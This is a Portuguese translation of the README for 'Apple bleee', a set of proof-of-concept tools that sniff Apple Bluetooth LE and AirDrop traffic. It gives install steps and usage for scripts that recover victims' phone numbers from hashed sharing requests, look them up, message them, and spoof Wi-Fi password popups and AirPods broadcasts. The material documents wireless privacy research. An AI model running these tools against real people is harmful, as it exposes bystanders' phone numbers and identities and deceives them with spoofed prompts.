





> Tradução automática local para português, ainda sem revisão humana integral. Estrutura e blocos de código preservados; referências externas não significam conteúdo espelhado.

# Apple bleee

<p align="center">
  
</p>

<a id="disclaimer"></a>
## Limitação de responsabilidade
Estes scripts são PoCs experimentais que mostram o que um atacante obtém dos dispositivos Apple se eles farejarem o tráfego Bluetooth.

***Este projeto é criado apenas para fins educacionais e não pode ser usado para violação da lei ou ganho pessoal.<br/>O autor deste projecto não é responsável por qualquer eventual dano causado pelos materiais deste projecto.***


<a id="requirements"></a>
## Requisitos
Para usar estes scripts você precisará de um adaptador Bluetooth para enviar mensagens `BLE` e cartão WiFi que suporta o modo de monitor ativo com injeção de moldura para comunicação usando `AWDL` (AirDrop). Recomendamos o chip Atheros AR9280 (IEEE 802.11n) que usamos para desenvolver e testar este código.
Nós testamos estes PoCs em **Kali Linux**


<a id="installation"></a>
## Instalação

```text
# clone main repo
git clone https://github.com/hexway/apple_bleee.git && cd ./apple_bleee
# install dependencies
sudo apt update && sudo apt install -y bluez libpcap-dev libev-dev libnl-3-dev libnl-genl-3-dev libnl-route-3-dev cmake libbluetooth-dev
sudo pip3 install -r requirements.txt
# clone and install owl for AWDL interface
git clone https://github.com/seemoo-lab/owl.git && cd ./owl && git submodule update --init && mkdir build && cd build && cmake .. && make && sudo make install && cd ../..
```

<a id="how-to-use"></a>
## Como utilizar

Antes de usar a ferramenta, verifique se seu adaptador Bluetooth está conectado

```text
hcitool dev
Devices:
    hci0    00:1A:7D:DA:71:13
```


<a id="script-ble_read_statepy"></a>
### Programa: [ble_read_ state.py](https://github.com/hexway/apple_bleee/blob/master/ble_read_state.py)

Este script fareja o tráfego `BLE` e exibe mensagens de status dos dispositivos Apple.
Além disso, a ferramenta detecta pedidos de compartilhamento de senhas de dispositivos Apple. Nesses pacotes, podemos obter os primeiros 3 bytes de sha256(número_telefone) e tentar adivinhar o número de telefone original usando tabelas preparadas com valores de hash do telefone.



```bash
python3 ble_read_state.py -h
usage: ble_read_state.py [-h] [-c] [-n] [-r] [-l] [-s] [-m] [-a] [-t TTL]

Apple bleee. Apple device sniffer
---chipik

optional arguments:
  -h, --help          show this help message and exit
  -c, --check_hash    Get phone number by hash
  -n, --check_phone   Get user info by phone number (TrueCaller/etc)
  -r, --check_region  Get phone number region info
  -l, --check_hlr     Get phone number info by HLR request (hlrlookup.com)
  -s, --ssid          Get SSID from requests
  -m, --message       Send iMessage to the victim
  -a, --airdrop       Get info from AWDL
  -t TTL, --ttl TTL   ttl
```

Para monitoramento você pode simplesmente executar o script sem quaisquer parâmetros

```bash
sudo python3 ble_read_state.py
```

pressione `Ctrl+q` para sair

Se você quiser obter números de telefone de uma solicitação de senha WiFi, você tem que preparar o hashtable (por favor, encontre scripts abaixo), configurar um servidor web e especificar `base_url` dentro deste script e executá-lo com o parâmetro `-c`

```bash
sudo python3 ble_read_state.py -с
```

Demo de **Video (clique):**

[](https://www.youtube.com/watch?v=Bi602yAIBAw)

<a id="script-airdrop_leakpy"></a>
### Programa: [airdrop_leak.py](https://github.com/hexway/apple_bleee/blob/master/airdrop_leak.py)

Este script permite obter o número de telefone móvel de qualquer usuário que irá tentar enviar arquivo via AirDrop

Para este script, precisaremos da interface `AWDL`:
```bash
# set wifi card to monitor mode and run owl
sudo iwconfig wlan0 mode monitor && sudo ip link set wlan0 up && sudo owl -i wlan0 -N &
```

Agora, você pode executar o script

```bash
python3 airdrop_leak.py -h
usage: airdrop_leak.py [-h] [-c] [-n] [-m]

Apple AirDrop phone number catcher
---chipik

optional arguments:
  -h, --help         show this help message and exit
  -c, --check_hash   Get phone number by hash
  -n, --check_phone  Get user info by phone number (TrueCaller/etc)
  -m, --message      Send iMessage to the victim
```

Sem parâmetros, o script apenas exibe o hash do telefone e o endereço ipv6 do remetente

```bash
sudo python3 airdrop_leak.py
```

Demo de **Video (clique):**

[](https://www.youtube.com/watch?v=mREIeH_s3z8)

<a id="script-adv_wifipy"></a>
### Programa: [adv_wifi.py](https://github.com/hexway/apple_bleee/blob/master/adv_wifi.py)

Este programa envia mensagens `BLE` com pedido de partilha de senhas WiFi. Este PoC mostra que um atacante pode activar uma mensagem pop- up no dispositivo de destino se souber algum telefone/e- mail que exista no dispositivo da vítima

```bash
python3 adv_wifi.py -h
usage: adv_wifi.py [-h] [-p PHONE] [-e EMAIL] [-a APPLEID] -s SSID
                   [-i INTERVAL]

WiFi password sharing spoofing PoC
---chipik

optional arguments:
  -h, --help            show this help message and exit
  -p PHONE, --phone PHONE
                        Phone number (example: 39217XXX514)
  -e EMAIL, --email EMAIL
                        Email address (example: test@test.com)
  -a APPLEID, --appleid APPLEID
                        Email address (example: test@icloud.com)
  -s SSID, --ssid SSID  WiFi SSID (example: test)
  -i INTERVAL, --interval INTERVAL
                        Advertising interval
```

Para um pedido de senha WiFi, precisamos especificar qualquer contato (e-mail/telefone) que exista nos contatos de uma vítima e o SSID de uma rede WiFi que a vítima conheça

```bash
sudo python3 adv_wifi.py -e pr@hexway.io -s hexway
```

Demo de **Video (clique):**

[](https://www.youtube.com/watch?v=QkGCP2mfbJ8)

<a id="script-adv_airpodspy"></a>
### Programa: [adv_airpods.py](https://github.com/hexway/apple_bleee/blob/master/adv_airpods.py)

Este script imita AirPods enviando mensagens `BLE`

```bash
python3 adv_airpods.py -h
usage: adv_airpods.py [-h] [-i INTERVAL] [-r]

AirPods advertise spoofing PoC
---chipik

optional arguments:
  -h, --help            show this help message and exit
  -i INTERVAL, --interval INTERVAL
                        Advertising interval
  -r, --random          Send random charge values
```

Vamos enviar mensagens `BLE` com valores de carga aleatórios para fones de ouvido

```bash
sudo python3 adv_airpods.py -r
```

Demo de **Video (clique):**

[](https://www.youtube.com/watch?v=HoSuLUtrkXo)

<a id="script-hash2phone"></a>
### Programa: [hash2phone](https://github.com/hexway/apple_bleee/blob/master/hash2phone/)

Você pode usar este script para criar tabela pré-calculada com números de telefone móvel hashes<br>
Por favor, encontre detalhes [Aqui.](https://github.com/hexway/apple_bleee/blob/1f8022959be660b561e6004b808dd93fa252bc90//hash2phone)

<a id="contacts"></a>
## Contactos

[https://hexway.io](https://hexway.io)<br>
[@ _hexway](https://twitter.com/_hexway)


---

## Procedência desta tradução

Fonte: [https://github.com/hexway/apple_bleee](https://github.com/hexway/apple_bleee/blob/1f8022959be660b561e6004b808dd93fa252bc90/README.md). Licença: [GPL-3.0](../../99-Assets/upstream/apple-bleee/LICENSE.txt). Commit: 1f8022959be660b561e6004b808dd93fa252bc90.

O original preservado, a lista de mudanças de apresentação e os hashes constam no manifesto do projeto. Nenhum exemplo desta documentação foi executado automaticamente.
